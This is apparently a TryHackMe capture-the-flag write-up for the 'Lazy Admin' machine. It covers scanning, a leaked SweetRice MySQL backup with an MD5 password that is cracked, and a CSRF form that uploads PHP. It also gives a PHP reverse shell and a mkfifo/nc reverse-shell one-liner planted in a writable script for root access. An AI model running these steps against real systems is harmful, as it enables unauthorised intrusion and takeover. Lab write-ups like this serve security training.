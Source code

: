 # Lazy Admin - TryHackMe WriteUp
# By 0xRar



## Scanning
```
nmap -T4 -p- -A -sC -Pn MACHINE_IP
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-22 19:12 EST
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We see that we have port 80 open lets check that out first:
`http://MACHINE_IP` we can see the Apache2 Ubuntu Default Page.


lets check what directories do we have:
```
/

gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)



/content

gobuster dir -u MACHINE_IP/content -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/index.php (Status: 200)
/js (Status: 301)

```

> By taking a look at the source code of the `/content`
> we can see that we have a js linked `http://MACHINE_IP/content/js/SweetRice.js`
> by checking the js file we see that the `cms: SweetRice version is 0.5.4`


## Exploitation

- Now that we have the cms name and version we can search for exploits
```
searchsploit SweetRice
as we can see there is 2 interesting exploits here:
SweetRice 1.5.1 - Backup Disclosure /content/inc/mysql_backup/ (https://www.exploit-db.com/exploits/40718)
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution (https://www.exploit-db.com/exploits/40700)
```

- After downloading the mysql backup it seems like the file type is php script 
`file mysql_bakup_20191129023059-1.5.1.sql`

- After going through the file and reading the content we can see the username and the passwd:
```
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\

username : manager

the passwd looks like an md5 hash we can crack it at (https://crackstation.net/)

passwd : Password123
```

- Looking at the directiries we see the login page at `http://MACHINE_IP/content/as/`
- Logging in gave us nothing , so lets check out the other exploit it will allow us to execute code , it means we can get a reverse shell

```
first lets edit our exploit.html , and change the localhost to our MACHINE_IP
and change the location of the login page

<html>
<body onload="document.exploit.submit();">
<form action="http://MACHINE_IP/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

firefox exploit.html &

Running the exploit.html twice will upload our PoC

going to (http://MACHINE_IP/content/inc/ads/hacked.php), if you can see the phpinfo() page
that means your exploit worked !
```
![PoC](https://user-images.githubusercontent.com/33517160/105569359-1373f500-5d52-11eb-9388-692b956b2a7c.png)


- Now we can use a reverse shell to gain access
```
i use (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

instead of using this ,
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>

we delete it and paste in our php shell,
 than firefox exploit.html again 
```

- Lets listen via nc `nc -lnvp 4444`
- We can see our shell is uploaded lets run it by going to `/content/inc/ads/shellname.php`


- Lets go get our user flag
```
cd home/itguy
cat user.txt

THM{********************************}    
```


## Privilege Escalation

```
in the itguy dir we see a backup.pl

we see that backup.pl is calling  /etc/copy.sh and copy.sh is writeable for users

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MACHINE_IP 7777 >/tmp/f
```

- Lets open a new terminal and listen via nc again  `nc -lnvp 7777`

```
now lets run backup.pl so it calls copy.sh than trigger our shell

cd root

cat root.txt

THM{********************************}

```

## This machine is an example for chaining 2 exploits to gain access.
## Thank you for reading 

